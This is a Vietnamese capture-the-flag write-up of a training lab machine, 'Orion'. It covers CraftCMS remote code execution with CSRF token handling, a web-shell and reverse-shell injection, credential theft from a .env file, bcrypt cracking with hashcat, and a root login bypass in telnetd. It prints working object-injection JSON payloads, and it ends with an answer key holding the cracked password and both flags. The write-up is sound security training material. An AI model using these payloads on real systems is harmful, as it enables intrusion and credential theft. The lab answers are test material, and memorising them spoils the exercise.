# Tổng quan
Mức độ: Easy\
Mô tả: Orion is a very easy Linux machine that features CSRF Validation Bypass and exploration of CraftCMS and Telnetd. The foothold includes achieving remote code execution by exploiting CVE-2025-32432 in a vulnerable version of CraftCMS. Then the default Craft environment variable file exposes the credentials for its MySQL database, which contains a crackable password. The password has been reused and leads to SSH access to the user on the machine. Finally, privilege escalation is achieved by finding and exploiting a vulnerable version of telnetd (CVE-2026-24061), allowing authentication bypass to root.
# Thu thập thông tin
## Các dịch vụ
Sử dụng nmap để lấy các thông tin về port,services và version. Kết quả cho thấy có 2 service gồm `ssh` chạy trên port `22` và `http` chạy trên port `80`.

## Xác thực các dịch vụ
Truy cập ssh yêu cầu password:


Thêm hostname-ip 10.129.231.23 orion.htb để truy cập được dịch vụ:



Sau khi tìm kiếm các endpoint bằng gobuster, mình đã xác định được các endpoint `/admin` sẽ redirect tới `/admin/login` , `/assets`,... 



Qua tìm hiểu `#About` mình xác định được đây là một website của nhà cung cấp dịch vụ hạ tầng viễn thông có tên là `Orion telecom`, website sử dụng công nghệ phía backend là `Craft CMS` . `Craft CMS` là một nền tảng quản lý nội dung(CMS) dùng để xây dựng website và version được sử dụng là: `5.6.16`


# Phân tích và khai thác lỗ hổng
Mình search google tìm kiếm các vulnerbilities về Craft CMS version 5.6.16 và mình phát hiện ra CVE-2025-3243. Sau khi tìm hiểu trong [Blog](https://sensepost.com/blog/2025/investigating-an-in-the-wild-campaign-using-rce-in-craftcms/), mình nhận ra được bắt nguồn của lỗ hổng trên nằm ở hàm `actionGenerateTransform`, nó cho phép người dùng truyền đoạn `JSON` được biết là `object configuration` và cho phép cho phép người dùng khởi tạo class tùy ý và kích hoạt thực thi mã.

Bây giờ mình sẽ kiểm tra xem website có tồn tại lỗ hổng đó hay không bằng cách gửi POST request tới `/index.php?p=actions/assets/generate-transform`. Tuy nhiên do website có cơ chế bảo vệ CSRF, chúng ta phải vượt qua bước kiểm tra này. Để thực hiện được, chúng ta cần lấy được các cookie cần thiết cũng như CSRF Token:  

- `CraftSessionId`: Định danh phiên 
- `CRAFT_CSRF_TOKEN`: Gía trị được lưu trên server
- `X-CSRF-Token`: CSRF token thực tế cần thiết để gửi các request JavaScript/AJAX

Đầu tiên mình truy cập đến trang `/admin/login`, ở đây server sẽ tạo cookie là `CraftSessionId` và `CRAFT_CSRF_TOKEN`. Để ý ở phía dưới chúng ta có thể thấy được CSRF token.


Sau khi có đầy đủ cookie cần thiết, mình sẽ tạo dữ liệu JSON tới `actions/assets/generate-transform`. Vì Craft xử lý dữ liệu này thông qua hệ thống cấu hình object của framework Yii, nó cho phép các mảng chứa key `class` được hiểu như là chỉ dẫn để tạo object. Vì xử kiểm tra không nhất quán nên chúng ta có thể tác động để chọn class nào sẽ được khởi tạo.

Do đó, mình sẽ cung cấp thêm `configuration` dưới dạng `as session` nhằm attach một behavior vào object đang được tạo. Sau đó mình có thể chọn khởi tạo một class như `GuzzleHttp\Psr7\FnStream`. Khi handler close của object đc kích hoạt, `FnStream` sẽ thực thi một hàm PHP do mình chọn là `phpinfo()`. 
```json
{

    "assetId": 121,
    "handle": {
    "width": 123,
    "height": 123,
    "as session": {
        "class": "craft\\behaviors\\FieldLayoutBehavior",
        "__class": "GuzzleHttp\\Psr7\\FnStream",
        "__construct()": [[]],
        "_fn_close": "phpinfo"
        }
    }
}
```


Sau khi xác nhận lỗ hổng thành công, mình sẽ sử dụng payload `meterpeter` trong metasploit framework. Các bước trong `meterpeter`:

- Inject web shell qua `GET /index.php?p=admin/dashboard&a=<?
=eval($_GET['cmd']);die()?>`. Server xử lý request và tạo session `CraftSessionId` 
- Nó sẽ lấy `X-CSRF-Token` và `cookie` từ `/admin/login`
- Kích hoạt reverse shell tới `POST /index.php?p=actions/assets/generate-
transform&cmd=eval(base64_decode('base64endoded_reversephpPAYLOAD'));` gồm các `cookie` và `X-CSRF-Token`để vượt qua cớ chế bảo vệ `CSRF`

```json
{
    "assetId": 11,
    "handle": {
        "width": 123,
        "height": 123,
        "as hack": {
            "class": "\\craft\\behaviors\\FieldLayoutBehavior",
            "__class": "\\yii\\rbac\\PhpManager",
            "__construct()": [
                {
                    "itemFile": "/var/lib/php/sessions/sess_{CraftSessionID}"
                }
            ]
        }
    }
}
```
Cài đặt các thông tin cần thiết cho payload. Sau khi thành công sẽ hiện `meterpeter` terminal là www-data. Sau đó mình sẽ thực hiện nâng cấp shell.



Sau khi nâng cấp shell, mình đã có thể thu thập thông tin về các file trong hệ thống



Mục tiêu tiếp theo là file `.env` vì nơi đó có các thông tin liên quan đến database nơi mà mình cần tìm thông tin account. ở đây mình đã có `username` và `password` của database


Sau khi truy cập vào database của orion mình tiến hành truy vấn tới bảng user và nhận giá trị hash của password của user adam.


Hash này là bcrypt, chúng ta có thể thử crack nó bằng Hashcat. Chúng ta sẽ lưu hash vào một file có tên hash.txt, sau đó chạy Hashcat bằng cách chỉ định file chứa hash, một wordlist và loại hash `-m 3200` dành cho bcrypt.
```text
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

Vì đã tìm được password `darkangel`, mình sẽ tiến hành đăng nhập qua ssh.

Tiếp đến mình sẽ tìm port và dịch vụ không bị lộ ra ngoài. Mình nhận thấy cổng 23 dành cho telnet đang ở trạng thái lắng nghe cục bộ. Version telnet là bản 2.7


Mình tìm khiếm trên mạng thì phát hiện ở version 2.7 thì telnet có lỗ hổng [CVE-2026-24061](https://github.com/Chocapikk/CVE-2026-24061). Chúng ta chỉ cần cung cấp `-f root` vào biến môi trường `USER`. Lúc này `Teletd daemon` sẽ truyền `USER` tới `login(1)` về cơ bản sẽ thực thi `login -f root`. Lệnh này sẽ được hiểu là `-f` bỏ qua xác thực , `root` là user mình muốn truy cập.



Sau khi truy cập thành công, mình sẽ tiến hành đọc file root.txt theo như yêu cầu của bài. 

# Báo cáo
Q1. How many open TCP ports are listening on Orion?\
Answer: 2

Q2. What is the version of CraftCMS running on the target?\
Answer: 5.6.16

Q3. Which user is running CraftCMS?\
Answer: www-data

Q4. Which file contains the password for the MySQL database?\
Answer: .env

Q5. What is the password that can be obtained from the MySQL database?\
Answer: darkangel

Q6. Submit the flag located in the Adam user's home directory.\
Answer: 87baf19873ef45748dfb1958ee024007

Q7. Which service, unrelated to CraftCMS, is open only locally on Orion?\
Answer: telnet

Q8. What is the version of the service found?\
Answer: 2.7

Q9. Submit the flag located in the root user's home directory\
Answer: 6816709fdb502efd25235e286edb064a

Nhận xét: Tổng thể để Machine sẽ ra lỗ hổng `CVE-2025-32432` trên service `CraftCMS` tại cổng 80 khiến attacker có thể truy cập vào server lấy thông tin đăng nhập từ database và `CVE-2026-24061` của service `telnet` tại cổng 23 đã tạo ra cách thức để leo thang đặc quyền(root).